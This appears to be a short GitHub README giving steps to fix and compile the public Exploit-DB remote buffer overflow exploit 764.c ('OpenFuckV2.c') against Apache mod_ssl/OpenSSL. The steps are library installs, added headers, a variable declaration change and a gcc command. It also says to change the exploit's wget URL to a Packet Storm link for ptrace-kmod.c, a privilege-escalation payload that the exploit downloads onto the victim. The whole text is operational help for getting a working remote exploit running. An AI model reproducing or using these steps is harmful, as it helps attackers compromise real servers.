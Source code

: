 Update ExploitL Apache mod_ssl < 2.8.7 OpenSSl - 'OpenFuckV2.c' Remote Buffer Overflow (764.c)

[Exploit DB] https://www.exploit-db.com/exploits/764

Include the following:

- Install libssl-dev lib
```
apt install libssl1.0-dev
```

- Add Headers:
```
#include <openssl/rc4.h>
#include <openssl/md5.h>
```

- Update the URL line 696
- Change the wget URL with new one:
```
 http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c;
```

- Line 961: Update decliration of variables:
*Old:  ```unsigned char *p, *end;```
*New: ```const unsigned char *p, *end;```

- Compile 
```gcc -o Openfunk Openfuck.c -lcrypto```

